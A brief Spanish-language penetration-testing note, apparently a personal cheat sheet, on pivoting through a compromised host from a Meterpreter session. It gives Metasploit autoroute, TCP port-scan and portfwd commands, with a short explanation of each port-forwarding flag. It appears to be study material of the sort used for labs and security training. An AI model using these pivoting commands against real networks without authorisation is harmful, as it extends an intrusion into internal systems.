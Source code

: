 --------
- tags: #metasploit #meterpreter #pivoting 
-------

### Desde una sesión Meterpreter

	run autoroute -s x.x.x.x/xx

##### Como continuar:
	use auxiliary/scanner/portscan/tcp
	set RHOSTS x.x.x.x
	set PORTS 1-100
	run

	portfwd add -l 1234 -p 80 -r x.x.x.x

> -l Es el puerto que usaremos nosotros para alcanzar el puerto del otro equipo
> -p Es el puerto abierto real en el otro equipo
> -r IP del equipo final al que estamos intentado llegar



















